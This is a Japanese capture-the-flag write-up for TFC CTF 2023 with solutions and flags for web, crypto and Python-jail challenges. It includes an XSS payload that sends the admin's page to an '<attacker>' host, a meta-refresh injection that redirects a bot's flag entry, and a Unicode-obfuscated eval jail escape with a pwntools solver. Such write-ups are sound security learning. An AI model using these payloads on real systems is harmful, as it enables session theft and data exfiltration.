

# TFC CTF 2023 Writeup {ignore=true}

TFC CTF 2023（<https://ctftime.org/event/2034>）に参加しました。  
金, 28 7月 2023, 19:00 JST — 日, 30 7月 2023, 19:00 JST

OnePaddingというチームで参加して、1397チーム中35位でした。

問題毎に個別のインスタンスが割り当てられていたので、他の人のことを気にせずに問題に取り組めたのが良かったです。  
一部の問題は競技中は解けていないですが、途中までの考え方とかを残しておきます。

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [WEB/MCTREE](#webmctree)
- [WEB/COOKIE STORE](#webcookie-store)
- [WEB/BABY DUCKY NOTES](#webbaby-ducky-notes)
- [WEB/BABY DUCKY NOTES: REVENGE](#webbaby-ducky-notes-revenge)
- [WEB/DUCKY NOTES: PART 3（未完）](#webducky-notes-part-3未完)
- [CRYPT/MAYDAY!](#cryptmayday)
- [CRYPTO/ALIEN MUSIC](#cryptoalien-music)
- [MISC/MY FIRST CALCULATOR](#miscmy-first-calculator)
- [MISC/MY THIRD CALCULATOR（未完）](#miscmy-third-calculator未完)

<!-- /code_chunk_output -->

## WEB/MCTREE

270 points / 50 solves

アカウントの登録とログイン機能のみある。  
adminとしてログインできれば、`/admin`にアクセスしてFLAGが得られる。  
SQLインジェクションはできなそうだったが、少し調べるとユーザ名を`{{7*7}}`で登録しようとすると、`7*7`として登録されることが分かった。  
どうやら、`{`や`}`は無視されるみたい。

試しに、`{{admin`で登録すると、`admin`として登録された。



あとはログインして`/flag`にアクセスするだけ。

- FLAG

```text
TFCCTF{I_l1k3_dr4g0n_tr33s__Yuh!_1ts_my_f4v0r1t3_tr33_f0r_sur3!}
```

## WEB/COOKIE STORE

297 points / 47 solves

一見botに対してXSSを仕掛けてFLAGを盗み出す問題に見える。

- bot.py

```py:bot.py
<SNIP>
client = webdriver.Chrome(options=chrome_options)

fields = urllib.parse.quote(fields)
client.get(f"http://localhost:1337/form_builder?fields={fields}")

time.sleep(2)
try:
    client.find_element(By.ID, "title").send_keys(FLAG)
except Exception as e:
    traceback.print_exc()
    
client.execute_script("""document.querySelector('input[type="submit"]').click();""")
time.sleep(2)

client.quit()
```

botの挙動を見ると、ページにアクセスした後、idが`title`の要素にFLAGを入力してsubmitボタンを押下している。

- form_builder.html

```html:form_builder.html
<SNIP>
<script>
    const urlParams = new URLSearchParams(window.location.search);
    const fields = urlParams.get('fields');

    let form_html = '';
    let fields_list = [];
    if (fields) {
        fields_list = fields.split(',');
        fields_list.forEach(element => {
            form_html += `<div class="mb-4">
                <label for="${element}" class="block text-gray-700 font-bold mb-2">${element}</label>
                <input type="text" name="${element}" id="${element}" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline">
            </div>`;
        });
    }
    // This will sanitize the input
    document.querySelector('#form_builder').setHTML(form_html);

    function add_field() {
        const new_field = document.querySelector('#new_field').value;
        if (new_field === '') {
            return;
        }
        if (fields_list === null || fields_list.includes(new_field)) {
            return;
        }
        if (fields) {
            location.search = `?fields=${fields},${new_field}`;
        } else {
            location.search = `?fields=${new_field}`;
        }
        // location.reload();
    }
</script>
<SNIP>
```

setHTMLによってDOM操作が行われているため、通常のXSSはできなそう。  
最初に思いついたのは、botがSeleniumで動作しているため、以下のダミー要素で騙す方法。

- actionを変更したform要素
- form内に、id=titleのinput要素
- form内に、type=submitのinput要素

```text
fields=<form action=https://<attacker>><input type=text name=title id=title><input type=submit value=Submit>
```

しかし、attackerサイトにアクセスさせることはできたが、input要素にFLAGを入力させることはできなかった。  
heightを変えてみたり、br要素を入れてみたりしたが、FLAG入力先の要素を変更することはできなかった。  
Seleniumならできるのではと少し期待していた。

- ダメだったパターン1

```text
fields=<form action=https://<attacker>><input style='height:90vh' type=text name=title id=title><input type=submit value=Submit>
```

- ダメだったパターン2

```text
fields=<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,</div></div><form><input type=text name=title id=title><input type=submit value=Submit></form>
```

仕方ないので一日寝かして思いついたのが、meta refreshでそもそもの入力画面を移動させる方法。

```html
<meta http-equiv='refresh' content='0;URL=https://<attacker>/'>
```

attackerのサイトに遷移した後にFLAG入力が発生していることが分かったので、これで良さそう。  
後はattackerのサイトに以下のようなhtmlを用意してbotを呼び出せば良い。

- test.html

```html:test.html
<form>
<input type="text" id="title" name="title">
<input type="submit" value="Submit">
</form>
```

- bot呼び出し

```sh
curl -X 'POST' --data-urlencode "fields=<meta http-equiv='refresh' content='0;URL=https://<attacker>/test.html'>" 'http://challs.tfcctf.com:31631/bot'
```

attackerサイトのアクセスログにFLAGが出力されていた。

- FLAG

```text
TFCCTF{144ab0e4c358b00b1258f2aea2250b21}
```

## WEB/BABY DUCKY NOTES

50 points / 443 solves

アカウント登録後にコメントが残せるらしい。  
コメントを登録して`/posts/view/`にアクセスすると、コメントが表示される。  
hidden設定していないコメントは他の人からもアクセスできる仕様のため、`/posts/view/admin`にアクセスすると、管理者のコメント（FLAG）が表示される。

- FLAG

```text
TFCCTF{Adm1n_l0St_h1s_m1nd!}
```

## WEB/BABY DUCKY NOTES: REVENGE

50 points / 175 solves

[WEB/BABY DUCKY NOTES](#webbaby-ducky-notes)の管理者コメント（FLAG）がhidden設定されているため、外部からは確認できなくなっている。  
このサイトにはレポート機能があり、自身が書いたページを管理者（Seleniumのbot）にアクセスさせることができる。  
また、コメントにXSSを仕込むことができるため、XSSでFLAGを取得できる。

```py
<ul class="posts_ul">
    
    <li>
        <div class="blog_post">
            <div class="container_copy">
                <h1> {{post.get('title')}} </h1>
                <h3> {{post.get('username')}} </h3>
                <p> {{post.get('content') | safe}} </p>
            </div>
        </div>
    </li>
     
</ul>
```

以下のようなスクリプトを埋め込んで、レポート機能を使うと、FLAGを取得できる。

```html
<script>fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(text => {fetch('https://<attacker>/', {method:"POST",body:text})})</script>
```

- FLAG

```text
TFCCTF{Ev3ry_duCk_kn0w5_xSs!}
```

## WEB/DUCKY NOTES: PART 3（未完）

447 points / 24 solves

// TODO 未完

[WEB/BABY DUCKY NOTES: REVENGE](#webbaby-ducky-notes-revenge)の続き。

- 差分

```text
diff -r ducky_notes_2/src/templates/posts.html ducky_notes_3/src/templates/posts.html
6c6
<     <title>Baby Ducky Notes: Revenge!</title>
---
>     <title>Ducky Notes: Part 3!</title>
33c33
<                   <p> {{post.get('content') | safe}} </p>
---
>                   <p> {{post.get('content')}} </p>
```

以下途中までわかったこと。

XSSはできそうなさそう。  
何かできるとしたら、ユーザ名で、ユーザ名に`..\`が入れられるため、部分的なパストラバーサルはできそう。  
これを利用すると、`admin`のみ利用できる`/posts/`にアクセスさせることはできる。  
ユーザ名はre.compile('^[A-za-z0-9\.]{2,}$')でチェックされているため、他にできそうなことは思いつかなかった。

Exceptionが起こせれば、フラグがエラーログに書き出されるっぽい。  
また、エラーが出力されるログファイルには外部からアクセスできる。

- /static/logs/2023-07-28 14:10:17.txt

```text
"2023-07-28 14:10:17" admin <REDACTED>
```

ただし、FLAGをエラーログに出力させるには、以下の箇所でExceptionを発生させる必要がある。

```py:routes.py
frontend_posts = []
posts = db_get_all_users_posts()

for post in posts:
    try:
        frontend_posts += [{'username': post['username'], 
                            'title': post['title'], 
                            'content': post['content']}]
    except:
        raise Exception(post)

return render_template('posts.html', posts=frontend_posts)
```

titleには空の値を入れられるため、Exceptionは発生させられるが、FLAGではないpostがエラーログに書き出される。

## CRYPT/MAYDAY!

50 points / 651 solves

- 問題文

```text
We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven

Flag format: TFCCTF{RESUL7-H3R3}
```

回答数が多かったため、問題文でググったらすぐに出てきた。  
どうやらモールス信号関連の単語らしい。

- <https://www.sckans.edu/~sireland/radio/code.html>

NATOとLetterを元に当てはめて、`TFCCTF{`と`}`を付け足すことでFLAGになる。

- FLAG

```text
TFCCTF{WH4T-AR3-YOU-S1NKING-4B0U7}
```

## CRYPTO/ALIEN MUSIC

50 points / 138 solves

```text
We've intercepted an alien transmission that seems to be composed of sheet music notes. Our lead translator is tone-deaf, our pianist can't spell 'binary', and the guitarist keeps shouting 'hex' in his sleep! Can you help us decode the tune?

DC# C#D# C#C C#C DC# C#D# E2 C#5 CA EC# CC DE CA EB EC# D#F EF# D6 D#4 CC EC EC CC# D#E CC E4

Flag format: TFCCTF{l33t_t3xt_h3r3}
```

問題文から、ギターコードとバイトコードが関係していることがわかる。  
ギターコードは知らないので、FLAGの形式が`TFCCTF{...`から推測してみる。

```text
# TFCCTF{
54 46 43 43 54 46 7b
DC# C#D# C#C C#C DC# C#D# E2
```

ギターコードには同じ数値が入るっぽいので、いろいろ試してみると、以下の法則があると推測できた。

```text
2  -> b
4  -> d
5  -> e
6  -> f
A  -> 0
A# -> 1
B  -> 2
C  -> 3
C# -> 4
D  -> 5
D# -> 6
E  -> 7
F  -> 8
F# -> 9
```

- 置換後

```text
54 46 43 43 54 46 7b 4e 31 74 33 57 31 72 74 68 79 5f 6d 33 73 73 34 67 33 7d
```

- FLAG

```text
TFCCTF{N1t3W1rthy_m3ss4g3}
```

## MISC/MY FIRST CALCULATOR

50 points / 116 solves

- 問題コード

```py:main.py
import sys

print("This is a calculator")

inp = input("Formula: ")

sys.stdin.close()

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ."

if any(x in inp for x in blacklist):
    print("Nice try")
    exit()

fns = {
    "pow": pow
}

print(eval(inp, fns, fns))
```

Python jailの問題。  
アルファベットと`.`が禁止されている。  
これ自体は、Unicodeの文字でアルファベットと同等の文字とみなされるものを使うことで回避できる。

- <https://www.asahi-net.or.jp/~ax2s-kmtn/ref/unicode/u1d400.html#is>

以下のような簡易スクリプトで置き換えた。

```py:replace.py
#!/usr/local/bin/python
a = "abcdefghijklmnopqrstuvwxyz"
b = "𝑎𝑏𝑐𝑑𝑒𝑓𝑔ℎ𝑖𝑗𝑘𝑙𝑚𝑛𝑜𝑝𝑞𝑟𝑠𝑡𝑢𝑣𝑤𝑥𝑦𝑧"
inp = input("Formula: ")
for i in range(len(a)):
    inp = inp.replace(a[i], b[i])
print(inp)
```

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

io = remote('challs.tfcctf.com', 31321)
msg = io.recvuntil(b'Formula: ')
io.sendline("𝑒𝑣𝑎𝑙(𝑐ℎ𝑟(111)+𝑐ℎ𝑟(112)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(110)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(102)+𝑐ℎ𝑟(108)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(103)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(44)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(41)+𝑐ℎ𝑟(46)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(100)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(41))")
io.interactive()
```

```sh
$ python solver.py 
[+] Opening connection to challs.tfcctf.com on port 32673: Done
solver.py:7: BytesWarning: Text is not bytes; assuming UTF-8, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("𝑒𝑣𝑎𝑙(𝑐ℎ𝑟(111)+𝑐ℎ𝑟(112)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(110)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(102)+𝑐ℎ𝑟(108)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(103)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(44)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(41)+𝑐ℎ𝑟(46)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(100)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(41))")
[*] Switching to interactive mode
TFCCTF{18641f40c9beac02ceeaf87db851c386}
[*] Got EOF while reading in interactive
```

- FLAG

```text
TFCCTF{18641f40c9beac02ceeaf87db851c386}
```

## MISC/MY THIRD CALCULATOR（未完）

482 points / 14 solves

- 問題コード

```py:third.py
import sys

print("This is a safe calculator")

inp = input("Formula: ")

sys.stdin.close()

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ."

if any(x in inp for x in blacklist):
    print("Nice try")
    exit()

fns = {
    "__builtins__": {"setattr": setattr, "__import__": __import__, "chr": chr}
}

print(eval(inp, fns, fns))
```

// TODO 未完

Python jailの問題2。使えるモジュールに制限が加えられている。  
`getattr`が使えれば`getattr(__import__('os'),'system')('cat flag')`のような形が作れたと思が、`.`が使えないため解けなかった。
後で解けたら追記する。
